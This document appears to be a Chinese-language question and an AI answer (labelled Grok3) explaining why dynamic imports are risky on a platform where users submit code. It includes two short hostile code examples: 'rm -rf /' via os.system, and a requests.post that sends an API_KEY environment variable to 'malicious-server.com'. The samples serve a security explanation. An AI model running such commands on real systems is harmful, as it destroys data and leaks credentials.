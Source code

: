 python中的动态导入类为什么属于不安全的高危操作，他们高危在哪？如果用户在我的计算平台上提交代码时包含 __import__() ， importlib.import_module() 这些模块（但不限于此），可能会给我的平台造成什么不好的结果？



## Grok3

在 Python 中，动态导入类（如使用 `__import__()` 或 `importlib.import_module()`）被认为是不安全的高危操作，主要是因为它们允许在运行时动态加载和执行任意代码。这种能力在不受控的环境中可能导致严重的安全风险，尤其是在用户可以提交代码的计算平台上。以下是详细的分析，包括高危的原因以及可能的不良后果。

---

### 一、为什么动态导入属于不安全的高危操作？

1. **任意代码执行的风险**  
   动态导入允许用户在运行时加载任意模块或代码。如果用户提交的代码中包含恶意导入，例如加载系统模块（如 `os`、`sys`）或自定义的恶意模块，就可能执行任意操作，包括但不限于：
   - 文件系统操作（如删除文件、修改文件）。
   - 网络操作（如发起恶意请求、窃取数据）。
   - 系统命令执行（如通过 `os.system` 或 `subprocess` 执行 shell 命令）。

2. **缺乏静态检查**  
   动态导入的模块路径通常是字符串，可能是用户输入或动态生成的内容。这意味着在代码运行之前，无法通过静态分析工具（如 linter 或安全扫描工具）准确判断哪些模块会被导入，增加了安全隐患。

3. **权限控制的复杂性**  
   在一个多用户计算平台上，动态导入可能绕过平台的权限控制机制。例如，即使平台限制了某些模块的使用，用户仍然可以通过动态导入的方式加载受限模块，从而执行未授权的操作。

4. **难以审计和追踪**  
   动态导入使得代码的行为高度不可预测，难以审计和追踪。例如，用户可能通过动态导入加载一个看似无害的模块，但该模块可能嵌套加载其他恶意模块。这种行为在日志中可能表现得隐蔽，难以被发现。

---

### 二、动态导入可能给计算平台带来的不良后果

如果用户在你的计算平台上提交的代码中包含动态导入操作，以下是可能导致的严重后果：

#### 1. **系统资源被滥用**
   - **文件系统破坏**：用户可能通过动态导入 `os` 或 `shutil` 模块，执行文件删除、修改或创建操作，导致平台数据丢失或系统崩溃。
     ```python
     import os
     os.system("rm -rf /")  # 删除系统文件
     ```
   - **计算资源耗尽**：用户可能通过动态导入加载恶意代码，执行高消耗的计算任务（如无限循环、内存分配），导致平台资源耗尽，影响其他用户。

#### 2. **安全漏洞和数据泄露**
   - **敏感数据窃取**：用户可能通过动态导入加载网络相关的模块（如 `requests`），将平台上的敏感数据（如用户数据、配置文件、环境变量）发送到外部服务器。
     ```python
     import requests
     requests.post("http://malicious-server.com", data={"secret": os.environ.get("API_KEY")})
     ```
   - **权限提升**：用户可能通过动态导入加载系统模块，尝试提权或绕过平台的沙箱限制。例如，通过加载 `ctypes` 模块直接调用底层系统 API。

#### 3. **恶意代码传播**
   - 用户可能通过动态导入加载外部模块或脚本（如通过 `importlib.import_module` 加载远程代码），将平台变成恶意代码的传播节点。例如，用户可能加载一个恶意 Python 包，进而感染其他用户或系统。
